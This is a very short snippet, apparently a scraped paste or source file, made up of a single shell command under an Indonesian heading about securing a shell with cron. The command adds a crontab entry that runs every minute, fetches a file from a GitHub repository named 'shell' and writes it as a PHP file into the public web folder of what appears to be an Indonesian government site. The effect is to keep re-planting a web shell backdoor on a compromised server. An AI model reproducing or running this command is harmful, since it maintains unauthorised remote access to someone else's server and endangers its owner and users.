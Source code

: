##AMANIN SHELL MAKE CRON

echo " * * * * * wget -q https://raw.githubusercontent.com/adriyansyah-mf/shell/main/hizuo.txt -O /home/sidak.bkpm.go.id/public_html/public/laporan/conf.php" | crontab -
